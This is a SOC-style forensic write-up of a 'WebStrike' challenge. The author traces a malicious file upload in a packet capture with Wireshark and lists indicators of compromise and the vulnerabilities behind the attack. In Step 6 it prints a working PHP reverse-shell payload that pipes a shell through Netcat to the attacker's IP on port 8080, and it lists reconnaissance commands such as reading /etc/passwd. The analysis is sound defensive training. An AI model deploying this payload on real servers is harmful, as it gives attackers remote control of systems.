






# WebStrike Challenge Investigation Report

## Overview

The **WebStrike Challenge** involved investigating a simulated cyber attack against a vulnerable web application. A packet capture file (`WebStrike.pcap`) was provided for analysis. Using **Wireshark**, the objective was to identify the attack vector, analyze the malicious payload, determine exploited vulnerabilities, and investigate how the attacker gained unauthorized access to the server.

This investigation simulates the work performed by **Security Operations Center (SOC) analysts**, who analyze network traffic to detect and respond to cyber threats.

---

# Challenge Objectives

The objectives of this challenge were to:

- Analyze captured network traffic using Wireshark
- Identify the source of the attack
- Detect malicious HTTP requests
- Investigate suspicious file uploads
- Analyze reverse shell payloads
- Identify evidence of data exfiltration
- Understand the attack lifecycle

---

# Step-by-Step Investigation Methodology

## Step 1: Opening the Packet Capture File

The investigation began by opening the provided **WebStrike.pcap** file in Wireshark. This allowed inspection of captured network traffic and identification of the protocols involved in communication between the client and server.

### Screenshot

---

## Step 2: Filtering HTTP Traffic

Since the suspected attack involved a web application, HTTP traffic was filtered using the following Wireshark filter:

- GET /
- GET /products/
- GET /about/
- GET /reviews/
- POST /reviews/upload.php

Examining HTTP request headers revealed the attacker’s User-Agent.

### User-Agent

`Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0`

---

## Step 3: Identifying the Attacker's IP Address

- Analysis of the HTTP packets revealed the attacker’s IP address: `117.11.88.124`
- The target server IP was: `24.49.63.79`
- Using an external IP geolocation service, the attacker’s location was identified as: `Tianjin, China`

---

## Step 4: Detecting Suspicious File Upload Requests

- To identify file upload activity, the following Wireshark filter was used: `http.request.method == POST`
- This revealed suspicious POST requests targeting the following endpoint: /reviews/upload.php
- This endpoint allowed users to upload files to the server.

---

## Step 5: Identifying the Malicious File Upload

Further analysis of the HTTP stream revealed a malicious file upload attempt.

The uploaded file name was: `image.jpg.php`

Although the file appeared to be an image, it actually contained **PHP code**, indicating an attempt to bypass file upload restrictions.

---

## Step 6: Extracting the Malicious Payload

Using the **Follow HTTP Stream** feature in Wireshark, the contents of the uploaded file were extracted.

The file contained a reverse shell payload: `<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>`

This payload performs the following actions:

1. Creates a FIFO pipe
2. Executes a shell on the compromised server
3. Establishes a connection to the attacker
4. Provides the attacker with remote command execution capability

---

## Step 7: Identifying Reverse Shell Communication

The reverse shell payload attempts to connect back to the attacker using **Netcat** on port: `8080`

This allows the attacker to establish a command shell on the compromised system.

---

## Step 8: Investigating Attacker Activity

Following the TCP stream revealed commands executed by the attacker after gaining access to the server.

Observed commands included:

- whoami
- uname -a
- pwd
- ls /home
- cat /etc/passwd

These commands indicate **system reconnaissance and an attempt to access sensitive system files**.

### Screenshot

---

# Key Findings

| Indicator | Value |
|------|------|
| Attacker IP Address | 117.11.88.124 |
| Attack Origin | Tianjin, China |
| Target Server | 24.49.63.79 |
| Malicious File | image.jpg.php |
| Upload Directory | /reviews/uploads/ |
| Reverse Shell Port | 8080 |
| Targeted File | /etc/passwd |

---

# Vulnerabilities Identified

## Insecure File Upload

The web application allowed executable PHP files to be uploaded through the file upload functionality.

## Insufficient File Validation

The system did not properly validate file types or restrict executable file uploads.

## Exposed Upload Directory

Uploaded files were stored in a publicly accessible directory: `/reviews/uploads/`

## Lack of Web Application Security Controls

No protections such as a **Web Application Firewall (WAF)** were in place to detect malicious uploads.

---

# Challenges Faced

## Large Volume of Network Data

The PCAP file contained numerous packets, making it necessary to apply filters to isolate relevant traffic.

## Identifying Malicious Requests

The attack traffic was mixed with legitimate web browsing activity, requiring careful inspection.

## Understanding Reverse Shell Behavior

Analyzing the reverse shell payload required understanding how **Netcat-based reverse shells** operate.

---

# Resolutions

The challenges were addressed using the following techniques:

- Applying Wireshark filters to isolate HTTP traffic
- Using **Follow HTTP Stream** to reconstruct the attack payload
- Following TCP streams to observe attacker commands
- Inspecting packet headers and payloads to identify indicators of compromise

---
# Tools Used

| Tool | Purpose |
|------|------|
| Wireshark | Network packet analysis |
| TCP Stream Analysis | Reconstructing attacker activity |
| HTTP Filtering | Identifying suspicious web traffic |

---

# Conclusion

The WebStrike challenge demonstrated how attackers exploit insecure file upload vulnerabilities to gain unauthorized access to web servers. By uploading a malicious PHP file disguised as an image, the attacker was able to execute a reverse shell and gain remote control of the compromised system.

Through packet analysis, it was possible to reconstruct the entire attack chain, including the malicious file upload, reverse shell connection, and post-exploitation reconnaissance activities.

This exercise highlights the importance of secure file upload mechanisms, network monitoring, and proper input validation to prevent web-based attacks.

---

